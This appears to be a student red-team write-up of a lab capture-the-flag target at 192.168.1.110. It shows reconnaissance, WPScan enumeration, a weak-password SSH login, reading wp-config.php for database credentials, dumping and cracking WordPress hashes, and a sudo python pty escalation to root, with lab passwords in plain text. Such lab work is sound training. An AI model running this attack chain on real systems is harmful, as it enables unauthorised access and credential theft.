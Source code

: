 # Red Team: Summary of Operations

## Table of Contents

**Target 1:**
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Netdiscover results identifying the IP addresses of target on the network:

netdicover -r 192.168.1.255/16

![Netdiscover](./Day 1/netdiscover.png)

Nmap scan results for Target 1 reveal the below services and OS details:

Name of the machine: Target 1
Operating system: Linux
Purpose: Defensive Blue Team
IP address: 192.168.1.110
Command used: nmap -sV 192.168.1.110

![nmap -sV 192.168.1.110](./Day 1/nmap_-sV_192_168_1_110.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp open ssh (OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  - Port 80/tcp open http (Apache httpd 2.4.10 ((Debian)))
  - Port 111/tcp open rpcbind (2-4 (RPC #100000))
  - Port 139/tcp open netbios-ssn (Samba smbd 3.X -4.X)
  - Port 445/tcp open netbios-ssn 9Samba smbd 3.X - 4.X)

The following vulnerabilities were identified on each target:
- Target 1
  - [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)
  - [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779 exploit on open rpcbind port could lead to remove DoS](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)
  - [CVE-2017-7494 Samba NetBIOS](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)
  
  - Vulnerabilities:
The following vulnerabilities were identified on Target 1:

1. Network Mapping and User Enumeration (WordPress site)
- Nmap was used to discover open ports.
- Able to discover open ports and tailor their attacks accordingly.

2. Weak User Password
- A user had a weak password and the attackers were able to discover it by guessing.
- Able to correctly guess a user's password and SSH into the web server.

3. Unsalted User Password Hash (WordPress database)
- Wpscan was utilized by attackers in order to gain username information.
- The username info was used by the attackers to help gain access to the web server.

4. MySQL Database Access
- The attackers were able to discover a file containing login information for the MySQL database.
- Able to use the login information to gain access to the MySQL database.

5. MySQL Data Exfiltration
- By browsing through the various tables in the MySQL database the attackers were able to discover password hashes of all the users.
- The attackers were able to exfiltrate the password hashes and crack them with John the Ripper.

6. Misconfiguration of User Privileges/Privilege Escalation
- The attackers noticed that Steven had sudo privileges for python.
- Able to utilize Steven’s python privileges in order to escalate to root.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - Enumerated WordPress site Users with WPScan to obtain username michael, used SSH to get user shell.
  - Command used: wpscan --url http://192.168.1.110/wordpress -eu
![wpsscan.png](./Day 1/wpsscan.png)
  
 - Visited the IP address of the target 192.168.1.110 over http port 80.
![Webpage.png](./Day 1/webpage-port-80.png)
 
 **Flag 1**
 - Flag 1: flag 1{b9bbcb33e11b80be759c4e844862482d}
![flag 1](./Day 1/flag1.png)
 **Exploit used:**
 - ssh into Michael's account and look for /var/www/files
 - Command used: ssh michael@192.168.1.110
 - The username and password for Michael are the same, which is michael, allowing for the ssh connection. 
![ssh Michael](./Day 1/ssh-michael.png)
 - Command used: cd /var/www
 - Command used: ls
 - Command used: grep -RE flag html
 - flag1 was part of the long print out.
![long print out](./Day 1/flag1-long-version.png)
 -Visited the IP address of the traget 192.168.1.110
 
**Flag 2**
 - Flag 2: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
![Flag 2](./Day 1/flag2.png)
**Exploit used:**
 - Command used: ssh into Michael's account and look in the /var/www files
 - Command used: cd /var/www
 - Command used: ls -lah
 - Command used: cat flag2.txt
![Flag 2](./Day 1/flag2.png)

**Flag 3**
 - Flag 3: flag3{afc01ab56b50591e7dccf93122770cd2}
 **Exploit used:**
 - Continued using michael shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.
 - Command used: cd /var/www/html/wordpress/
 - Command used: cat /var/www/html/wordpress/wp-config.php
![wp-config](./Day 1/wp-config.png)
![wp-config](./Day 1/continuation-of-wp-config.png)
![wp-config](./Day 1/mysql-database.png)
 - Used the credentials to log into MySQL and dump WordPress user password hashes as below:
DB_NAME: wordpress
DB_USER: root
DB_PASSWORD: R@v3nSecurity
 - Command: mysql -u root -p
![mysql -u root -p](./Day 1/mysql-uroot-p.png)
 - Searched MySQL database for Flag 3 and WordPress user password hashes.
Flag 3 found in wp_posts.
Password hashes found in wp_users.
 - Command used: show databases;
 - Command: use wordpress;
 - Command: show tables;
 - Command: select * from wp_posts;
 - Both flags, flag 3 and flag 4 were part of the wp_post.
![wp post](./Day 1/wp-post.png)
 - Command used: select * from wp_users
![wp users](./Day 1/wp-users.png)

**Flag 4**
- Flag 4: flag4{715dea6c055b9fe3337544932f2941ce}
**Exploit used:**
- Used john to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.
- Cracking the password hash with john.
- Copied password hash from MySQL into ~/root/wp_hashes.txt and cracked with john to discover Steven’s password is pink84.
- Command used: john wp_hashes.txt
![john](./Day 1/john.png)
- Secure a user shell as the user whose password you cracked.
- Command used: ssh steven@192.168.1.110
* Password: pink84
- Escalating to root
- Command used: sudo -l
![sudo -l](./Day 1/sudo-l.png)
- sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
![sudo -l](./Day 1/sudo-l.png)
- Searched for the root directory for Flag 4.
- Command used: cd /root/
- Command used: ls
- Command used: cat flag4.txt
![sudo -l](./Day 1/sudo-l.png)